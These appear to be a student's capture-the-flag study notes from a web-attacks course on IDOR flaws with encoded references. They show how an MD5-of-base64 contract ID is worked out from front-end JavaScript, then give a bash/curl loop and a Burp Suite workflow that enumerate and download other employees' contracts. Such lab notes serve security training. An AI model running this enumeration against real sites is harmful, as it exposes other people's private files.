# Bypassing Encoded References

This example will be similar to before but encoded.

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

![download\_contract](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_download\_contract.jpg)

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

this appears to be hased in `md5` format.

Since hash can't be decoded, we can try to has various values like uid, username, filename, etc. and look for any match.

For this example the UID's hash matched it

```shell-session
echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

### Function Disclosure

Some developers make mistake by performing critical functions on the front-end which exposes the the functions to attackers.

For example, if the above case (hashing the value) was done in the front-end, we could easily find the function and learn what it does step by step.

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

In the above code, the function downloadContract

* converts the UID to base64 string
* hash it using md5
* and send it using POST method

we could replicate the function in our bash command

```shell-session
echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

### Mass Enumeration

once we know what algorithm is used each step to get the hashed value we can write a simple script to perform the encoding and hasing for multiple values

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

> tr -d removes the - at the end of each hashed value

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

Then using the above script to enumerate each hashed value

### Assessment

Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption><p>Burp Suite decode URL > Base64 = value</p></figcaption></figure>

to encode the value we have to perfrom in reverse

`value > Base64 > URL encode`

<figure><img src="../../../.gitbook/assets/image (85) (1).png" alt=""><figcaption><p>Use burp to generate 1-20 number then encode them using payload processing</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption><p>Look for most different request then check response</p></figcaption></figure>
